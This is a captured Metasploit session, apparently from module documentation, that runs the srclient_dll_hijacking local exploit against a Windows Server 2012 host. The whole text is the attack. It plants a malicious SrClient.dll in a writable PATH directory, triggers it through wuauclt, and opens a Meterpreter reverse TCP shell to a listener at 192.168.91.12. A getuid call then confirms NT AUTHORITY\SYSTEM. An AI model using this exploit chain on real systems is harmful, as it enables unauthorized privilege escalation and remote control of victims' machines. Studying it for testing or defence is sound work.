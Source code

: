 ```
   STEALTH_ONLY       false            no        Only exploit if the payload can be triggered without launching the Windows Update UI)
   WAIT_FOR_TIWORKER  0                no        No. of minutes to wait for  TiWorker.exe to finish running if it is already active.
   WRITABLE_PATH_DIR  c:\wynter        no        Path to a writable %PATH% directory to write the payload to.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.91.12    yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows Server 2012 (x64)


msf6 exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:5555 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to c:\wynter
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[!] Because Windows Update is set to never check for updates, triggering the payload requires launching the Windows Update window on the target.
[*] Trying to trigger the payload via the shell command `wuauclt /selfupdatemanaged`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 9 opened (192.168.91.12:5555 -> 192.168.91.16:49160) at 2021-02-16 09:12:28 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

